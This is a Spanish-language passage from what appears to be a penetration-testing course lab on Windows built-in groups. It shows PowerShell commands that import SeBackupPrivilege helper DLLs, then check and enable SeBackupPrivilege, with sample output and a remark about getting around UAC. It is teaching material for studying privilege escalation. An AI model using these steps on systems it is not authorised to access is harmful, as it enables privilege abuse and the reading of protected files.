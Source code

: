 #### Importación de bibliotecas

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

#### La verificación de SebackupPrivilege está habilitado

Vamos a ver si`SeBackupPrivilege`está habilitado invocando`whoami /priv`o`Get-SeBackupPrivilege`cmdlet. Si el privilegio está deshabilitado, podemos habilitarlo con`Set-SeBackupPrivilege`.

Nota: Según la configuración del servidor, se puede requerir que genere un indicador CMD elevado para evitar la UAC y tener este privilegio.

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

#### Habilitando SebackupPrivilege

Si el privilegio está deshabilitado, podemos habilitarlo con`Set-SeBackupPrivilege`.

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

  Grupos incorporados de Windows
